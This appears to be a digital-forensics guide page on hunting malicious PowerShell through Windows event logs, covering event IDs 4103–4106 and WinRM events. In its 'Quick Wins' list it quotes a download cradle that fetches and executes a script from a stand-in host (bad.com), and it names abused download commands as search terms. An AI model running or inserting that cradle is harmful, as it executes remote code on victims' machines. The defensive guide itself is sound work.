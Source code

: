 Audits are recorded as event log entries in the **Microsoft-Windows-PowerShell/Operational** log regardless of how PowerShell was executed—from a command shell, the integrated scripting environment (ISE), or via custom hosting of PowerShell components. Event **ID 4104** records the script block contents, but only the first time it is executed in an attempt to reduce log volume. **4105/4106** events (PowerShell execution) are often considered too noisy to be useful for threat hunting.

Most logging is not enabled by default, so the data might not be available when needed. However, Microsoft did enable a built-in feature to automatically log any suspicious scripts, even if script block logging is disabled. This is valuable for investigators reviewing the **Microsoft-Windows-PowerShell/Operational** log, even in organisations that have not yet enabled full auditing.

**Microsoft-Windows-WinRM/Operational** log tracks WinRM connections, which happens to be the primary protocol for PowerShell remoting. The log is available on both source and destination systems. It records the destination hostname, IP, and currently logged-on user (Event ID 6), as well as the source of session creation (Event ID 91) and the authenticating user account (Event ID 168).

#### PowerShell Syntax to Achieve Stealth

<figure><img src="../.gitbook/assets/Screenshot 2023-10-01 130620.png" alt=""><figcaption></figcaption></figure>

**Investigator Notes**: Like many attacker behaviours, a limited set of syntax is frequently used to make malicious PowerShell activity more difficult to discover. While **(New-Object System.Net.Webclient).DownloadFile()** is the most common within many attack frameworks; it is not the only way to download files using PowerShell. Also, look for commonly abused commands like **Start-BitsTransfer** and **Invoke-WebRequest.**

**Quick Wins in the PowerShell/Operational Log**

* Event may capture different parts of an attack
  * 4103 recorks module/pipeline output
  * 4104 records code (scripts) executed (look for “Warning” events)
* The PowerShell download cradle sees heavy use in the wild:
  * IEX (New-Object Net.Webclient).downloadstring("http://bad.com/bad.ps1")
* Filter using commonly abused keywords
